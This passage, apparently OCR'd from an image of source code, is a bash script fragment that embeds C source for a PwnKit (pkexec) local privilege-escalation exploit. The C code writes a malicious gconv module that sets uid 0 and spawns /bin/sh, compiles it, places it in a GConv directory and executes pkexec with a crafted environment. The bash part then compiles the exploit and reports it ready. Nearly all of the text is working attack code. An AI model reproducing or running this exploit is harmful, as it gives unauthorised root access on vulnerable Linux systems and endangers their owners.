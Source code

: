 ```bash
    sprintf(filepath, "%s/pwnkit.c", parent_dir);
    fd = open(filepath, O_CREAT|O_WRONLY, 0777);
    if (fd < 0) {
        perror("open pwnkit.c");
        return 1;
    }
    const char *exploit_code = "#include <stdio.h>\n"
                              "#include <stdlib.h>\n"
                              "#include <unistd.h>\n"
                              "void gconv() {}\n"
                              "void gconv_init() {\n"
                              "    setuid(0); setgid(0);\n"
                              "    static char *argv[] = {\"/bin/sh\", NULL};\n"
                              "    static char *envp[] = {\"PATH=/usr/bin:/usr/sbin:/bin:/sbin\", NULL};\n"
                              "    execve(\"/bin/sh\", argv, envp);\n"
                              "    exit(0);\n"
                              "}\n";
    write(fd, exploit_code, strlen(exploit_code));
    close(fd);
    
    // Compile the exploit module
    sprintf(filepath, "cd %s && gcc -o pwnkit.so pwnkit.c -shared -fPIC", parent_dir);
    system(filepath);
    
    // Move the module to the GConv directory
    sprintf(filepath, "cp %s/pwnkit.so %s/", parent_dir, gconv_dir);
    system(filepath);
    
    // Create symlink to pkexec
    sprintf(shell_symlink, "%s/shell", parent_dir);
    symlink(SHELL, shell_symlink);
    
    // Set GCONV_PATH environment variable
    sprintf(gconv_dir_env, "GCONV_PATH=%s", gconv_dir);
    
    // Execute pkexec with malicious environment
    char *envp[] = {gconv_dir_env, "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL};
    char *argv[] = {"pkexec", "pwnkit", NULL};
    
    execve("/usr/bin/pkexec", argv, envp);
    
    // Clean up (only reached if execve fails)
    sprintf(filepath, "rm -rf %s", parent_dir);
    system(filepath);
    
    return 0;
}
EOF
            
            gcc -o pwnkit pwnkit.c
            chmod +x pwnkit
            
            echo "[+] PwnKit exploit compiled. Execute './pwnkit' to attempt privilege escalation."
            
            return 0
        else
            echo "[-] pkexec exists but is not SUID. Not vulnerable to PwnKit."
        fi
    else
        echo "[-] pkexec not found. Not vulnerable to PwnKit."
    fi
    
```